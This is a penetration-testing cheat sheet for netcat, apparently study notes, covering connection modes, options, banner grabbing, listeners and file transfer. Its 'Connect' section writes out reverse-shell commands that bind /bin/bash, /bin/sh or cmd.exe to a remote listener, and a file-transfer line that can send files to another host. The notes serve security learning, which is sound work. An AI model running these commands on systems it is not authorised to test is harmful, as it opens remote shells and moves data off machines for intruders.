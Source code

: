 # netcat (nc)
> Netcat (the "TCP/IP Swiss Army Knife") is a networking utility used to read and write data to network connections using TCP or UDP.

## Contents
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)

## Remote Access Tool
- NetCat is a popular remote access tool.
- It has a small footprint so it's portable. It can set up a reverse shell easily.
  - In Kali the Windows executable is found here: `/usr/share/windows-binaries/nc.exe`
- Netcat can be used by penetration testers to perform the following functionality:
  - Banner Grabbing
  - Port Scanning
  - Tranferring Files
  - Bind/Reverse Shells
- Resources: [Simple How-To](https://jeffreytse.net/computer/2020/10/14/how-to-use-netcat-command.html) | [Basic Usage](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/)

## Two Modes
- Netcat utilizes a client-server communication architecture with two modes:
  - **Client [Connect] Mode:** Netcat can be used in a client mode to connect to any TCP/UDP port; it can also be used to connect to a remote listener (a remote Netcat server).
  - **Server [LIsten] Mode:** Netcat can be used to listen for connections from clients on a specific port.

## Options
- Some options to be aware of...
- `-v  --verbose` : set verbosity levels (`-v` is lower level, `-vv` is more, `-vvv`, etc.)
- `-u  --udp` : use UDP instead of the default TCP
- `-l  --listen` : bind (to a specified port) and listen for incoming connections
- `-n  --nodns` : do not resolve hostnames via DNS
- `-p  --source-port <port#>` : specify the source port to use
- `-e  --exec <command>` : executes the given command 

## Connecting to Ports (client mode)

### Standard Syntax
```
nc [target ip] [target port]  
nc 10.4.20.244 80              # example
```
- Netcat allows you to connect to a specific TCP or UDP port.
- This can allows you to do banner grabbing and things of that nature (once you connect, the target may give you a service banner with helpful information).

### Additional Information
- If your initial connection (like the above) results in nothing (no service banner), then you need to add some options.
```
nc -nv 10.4.20.244 80      # this will give you a little bit more information (e.g., confirmation of the connection).
nc -nvu 10.4.20.244 139    # check UDP
```

### Manually Check Ports
- Nmap will find open ports, and a service version scan will most often provide detailed information about what services (and their versions) are running on those open ports.
- This is not, however, the case all the time. 
- Whenever you see a question mark next to an nmap result, that means nmap is give you a best guess.
- You should always check these items **_manually_** with Netcat.

## Listener
- Set up the listener on your attack machine:
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

## Connect

### Connect to the listener from a Linux target machine:
```
nc [listener IP] [port] –e /bin/bash
nc [listener IP] [port] –e /bin/sh
```

### Connect to the listener from a Windows target machine:
```
nc.exe [listener IP] [port] –e cmd.exe
```

## File Input/Output

Send output from a listener to a text file:
```
nc -nvlp [port number] > filename.txt
```

Send output from a text file to a remote machine (this can be used to transfer any type of file: text, binary, etc.):
```
nc [IP Address] [port] < filename.txt
```
